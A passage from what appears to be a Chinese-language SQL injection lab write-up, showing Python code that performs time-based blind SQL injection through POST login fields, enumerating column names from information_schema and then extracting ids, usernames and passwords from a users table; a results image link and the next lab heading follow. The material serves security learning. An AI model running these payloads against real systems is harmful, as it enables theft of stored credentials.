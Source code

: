 ```python
        for j in range(1, 20):
            for str in char:
                time1 = time()
                data = {
                    'uname': "admin' and If((mid((select concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' limit %d,1),%d,1))='%s',sleep(0.1),1)#" % (i, j, str), 'passwd': "1"}
                res = requests.post(url, data=data)

                time2 = time()

                if time2 - time1 > 0.1:
                    column += str
                    break
        print("the %d column: " % (i + 1))
        print(column)


def data_value():
    for i in range(0, 10):
        value = ""
        for j in range(1, 20):
            for str in char:
                time1 = time()
                data = {
                    'uname': "admin' and If((mid((select concat_ws(id,username,password) from users limit %d,1),%d,1))='%s',sleep(0.1),1)#" % (i, j, str), 'passwd': "1"}
                res = requests.post(url, data=data)

                time2 = time()

                if time2 - time1 > 0.1:
                    value += str
                    break
        print("the %d value: " % (i + 1))
        print(value)


if __name__ == "__main__":
    print("start!")
    data_value()
    print("end!")
```

运行结果：

![image-20211207212831283](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020059250.png)



## 实验十六	post方法双引号括号绕过时间盲注
